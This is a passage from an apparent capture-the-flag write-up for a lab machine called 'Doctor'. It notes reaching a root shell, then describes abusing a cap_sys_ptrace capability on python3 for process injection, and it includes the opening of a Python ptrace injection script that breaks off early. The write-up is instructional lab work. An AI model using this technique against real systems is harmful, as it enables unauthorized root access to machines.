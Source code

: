 And with that we receive a shell as root and finish with the machine.

![](/assets/images/doctor/shell3.png)

# [](#header-1)Possible Privilege Escalation Method

As I mentioned finding the password of "shaun" was really annoying, so first I tried another approach, I saw that python3 had `cap_sys_ptrace+ep` set.

![](/assets/images/doctor/getcap.png)

I had learnt from Pentester Academy that is possible to use this to get proccess injection as root, so I tried that, [here](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc) is its blog showing how to do that, but the example is for python2 so we have to tweak it a bit so it works with python3, we just have to change the shellcode to bytes and some encoding methods, resulting in:

```python
# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct
import time

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS	= 12
PTRACE_SETREGS	= 13
PTRACE_ATTACH 	= 16
PTRACE_DETACH 	= 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
	_fields_ = [
    	("r15", ctypes.c_ulonglong),
    	("r14", ctypes.c_ulonglong),
    	("r13", ctypes.c_ulonglong),
    	("r12", ctypes.c_ulonglong),
    	("rbp", ctypes.c_ulonglong),
```